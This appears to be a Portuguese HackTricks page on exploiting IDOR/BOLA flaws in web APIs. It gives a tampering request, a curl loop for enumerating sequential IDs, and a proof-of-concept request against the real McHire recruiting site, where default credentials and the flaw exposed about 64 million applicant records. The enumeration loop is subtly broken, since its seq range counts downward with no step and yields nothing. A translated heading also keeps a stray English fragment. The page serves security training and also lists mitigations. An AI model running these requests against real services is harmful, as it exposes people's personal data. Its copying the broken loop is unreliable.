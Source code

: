 # IDOR (Insecure Direct Object Reference)

{{#include ../banners/hacktricks-training.md}}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) aparece quando um endpoint web ou API divulga ou aceita um identificador controlável pelo usuário que é usado **diretamente** para acessar um objeto interno **sem verificar se o chamador está autorizado** a acessar/modificar esse objeto. A exploração bem-sucedida normalmente permite a escalada de privilégios horizontal ou vertical, como ler ou modificar dados de outros usuários e, no pior dos casos, a tomada total de conta ou exfiltração em massa de dados.

---
## 1. Identificando Potenciais IDORs

1. Procure por **parâmetros que referenciam um objeto**:
* Caminho: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Consulta: `?id=42`, `?invoice=2024-00001`
* Corpo / JSON: `{"user_id": 321, "order_id": 987}`
* Cabeçalhos / Cookies: `X-Client-ID: 4711`
2. Prefira endpoints que **leem ou atualizam** dados (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Observe quando os identificadores são **sequenciais ou previsíveis** – se seu ID é `64185742`, então `64185741` provavelmente existe.
4. Explore fluxos ocultos ou alternativos (por exemplo, *"membros da equipe Paradox"* link em páginas de login) que podem expor APIs extras.
5. Use uma **sessão autenticada de baixo privilégio** e mude apenas o ID **mantendo o mesmo token/cookie**. A ausência de um erro de autorização é geralmente um sinal de IDOR.

### Quick manual tampering (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Enumeração automatizada (Burp Intruder / loop curl)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---
## 2. Estudo de Caso do Mundo Real – Plataforma de Chatbot McHire (2025)

Durante uma avaliação do portal de recrutamento **McHire** alimentado por Paradox.ai, o seguinte IDOR foi descoberto:

* Endpoint: `PUT /api/lead/cem-xhr`
* Autorização: cookie de sessão do usuário para **qualquer** conta de teste de restaurante
* Parâmetro do corpo: `{"lead_id": N}` – identificador numérico **sequencial** de 8 dígitos

Ao diminuir `lead_id`, o testador recuperou PII **completa** de candidatos arbitrários (nome, e-mail, telefone, endereço, preferências de turno) além de um **JWT** de consumidor que permitia o sequestro de sessão. A enumeração do intervalo `1 – 64,185,742` expôs aproximadamente **64 milhões** de registros.

Requisição de Prova de Conceito:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Combined with **credenciais de administrador padrão** (`123456:123456`) que concediam acesso à conta de teste, a vulnerabilidade resultou em uma violação de dados crítica em toda a empresa.

---
## 3. Impacto do IDOR / BOLA
* Escalação horizontal – ler/atualizar/excluir dados de **outros usuários**.
* Escalação vertical – usuário com baixo privilégio ganha funcionalidade exclusiva de administrador.
* Violação de dados em massa se os identificadores forem sequenciais (por exemplo, IDs de candidatos, faturas).
* Tomada de conta ao roubar tokens ou redefinir senhas de outros usuários.

---
## 4. Mitigações & Melhores Práticas
1. **Impor autorização em nível de objeto** em cada solicitação (`user_id == session.user`).
2. Preferir **identificadores indiretos e imprevisíveis** (UUIDv4, ULID) em vez de IDs auto-incrementais.
3. Realizar autorização **no lado do servidor**, nunca confiar em campos de formulário ocultos ou controles de UI.
4. Implementar verificações de **RBAC / ABAC** em um middleware central.
5. Adicionar **limitação de taxa e registro** para detectar enumeração de IDs.
6. Testar a segurança de cada novo endpoint (unitário, integração e DAST).

---
## 5. Ferramentas
* **Extensões do BurpSuite**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Projetos do Github**: `bwapp-idor-scanner`, `Blindy` (caça IDOR em massa).

{{#include ../banners/hacktricks-training.md}}

## Referências
* [Plataforma de Chatbot McHire: Credenciais Padrão e IDOR Expondo PII de 64M de Candidatos](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Controle de Acesso Quebrado](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [Como Encontrar Mais IDORs – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
{{#include /banners/hacktricks-training.md}}
